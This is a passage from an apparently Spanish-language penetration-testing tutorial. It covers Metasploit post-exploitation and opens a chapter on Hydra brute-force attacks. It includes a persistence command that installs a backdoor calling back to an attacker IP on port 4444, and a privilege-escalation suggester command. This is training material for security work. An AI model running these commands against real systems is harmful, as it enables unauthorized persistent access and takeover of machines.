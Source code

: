 #### **4.6. Post-explotación y mantenimiento de acceso**
Después de haber comprometido un sistema, uno de los objetivos principales es mantener el acceso. Metasploit proporciona una serie de módulos y herramientas para realizar tareas de post-explotación, como la creación de backdoors, recolección de información sensible, y la escalada de privilegios.

##### **Persistencia (mantener acceso)**
Una técnica común es instalar un backdoor en el sistema para mantener acceso después de que se cierre la sesión actual:
```bash
run persistence -A -X -i 10 -p 4444 -r 192.168.1.10
```
Este comando configura un backdoor que se ejecutará cada vez que el sistema objetivo se reinicie y establecerá una conexión de nuevo con el atacante en el puerto 4444.

#### **4.7. Escalada de privilegios**
En algunas ocasiones, cuando comprometes un sistema, es posible que solo obtengas acceso limitado (usuario sin privilegios administrativos). En estos casos, Metasploit proporciona módulos que te permiten escalar privilegios y obtener control total sobre el sistema.

Para buscar vulnerabilidades de escalada de privilegios, puedes utilizar el siguiente comando dentro de Metasploit:
```bash
run post/multi/recon/local_exploit_suggester
```
Este comando te mostrará una lista de posibles vulnerabilidades que puedes aprovechar para escalar privilegios en el sistema objetivo.

---

**Resumen del Capítulo 4**: En este capítulo, hemos explorado el uso de **Metasploit**, desde la configuración básica hasta la explotación de vulnerabilidades y post-explotación. También hemos realizado un ejercicio práctico utilizando un exploit conocido (MS08-067) y hemos discutido técnicas avanzadas como la persistencia y la escalada de privilegios. El próximo capítulo se enfocará en el uso de **Hydra** para realizar ataques de fuerza bruta sobre servicios y contraseñas.

---------------------------------------------------------------------------------------------------------------

### **Capítulo 5: Ataques de Fuerza Bruta con Hydra**

#### **5.1. ¿Qué es Hydra?**
Hydra es una herramienta diseñada para realizar ataques de fuerza bruta, principalmente contra servicios de autenticación. Los ataques de fuerza bruta consisten en probar sistemáticamente combinaciones de nombres de usuario y contraseñas hasta encontrar las correctas. Hydra es una de las herramientas más populares para este tipo de ataques debido a su capacidad de realizar múltiples intentos en paralelo y soportar una gran variedad de protocolos y servicios.

##### **Protocolos soportados por Hydra**
Hydra es compatible con una amplia gama de protocolos, lo que la convierte en una herramienta versátil para ataques de autenticación. Algunos de los servicios más comunes que soporta son:
- SSH
- FTP
- HTTP(S)
- Telnet
- SMTP, POP3, IMAP
- SMB
- MySQL, PostgreSQL, MSSQL
- RDP (Remote Desktop Protocol)
